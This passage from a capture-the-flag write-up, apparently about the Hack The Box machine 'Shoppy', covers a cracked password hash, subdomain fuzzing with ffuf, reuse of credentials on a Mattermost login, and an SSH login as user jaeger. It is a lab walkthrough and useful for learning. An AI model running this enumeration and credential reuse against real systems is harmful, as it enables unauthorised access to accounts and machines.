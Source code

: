 Looks like we got the password for josh.

```text-plain
cat out.txt                             
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

More Web Enumeration
--------------------

I tried to SSH with this password which didnt work so I'll continue to enumerate. Next I'll fuzz for subdomains with ffuf. 

```text-plain
ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -mc 200 -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
       /'___\  /'___\           /'___\       
      /\ \__/ /\ \__/  __  __  /\ \__/       
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
        \ \_\   \ \_\  \ \____/  \ \_\       
         \/_/    \/_/   \/___/    \/_/      
      v1.5.0 Kali Exclusive <3
________________________________________________
:: Method           : GET
:: URL              : http://shoppy.htb
:: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
:: Header           : Host: FUZZ.shoppy.htb
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200
________________________________________________
mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 31ms]
:: Progress: [100000/100000] :: Job [1/1] :: 1557 req/sec :: Duration: [0:01:05] :: Errors: 0 ::
```

ffuf found the subdomain mattermost. I'll add this to my hosts file and navigate to this page.

```text-plain
echo '10.10.11.180 mattermost.shoppy.htb' | sudo tee -a /etc/hosts
```

mattermost.shoppy.htb presents us with another login page so lets try the josh creds on this page. After a bit of poking around I found a message from another user with cleartext creds in it.

![image](https://user-images.githubusercontent.com/110564012/236976386-4a357209-d744-41a1-bb10-9dff09a71db0.png)

Foothold
--------

I'll try to SSH into the target again with these creds, which finally works.

```text-plain
ssh jaeger@shoppy.htb
jaeger@shoppy.htb's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon May  8 20:25:57 2023 from 10.10.14.10
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
```
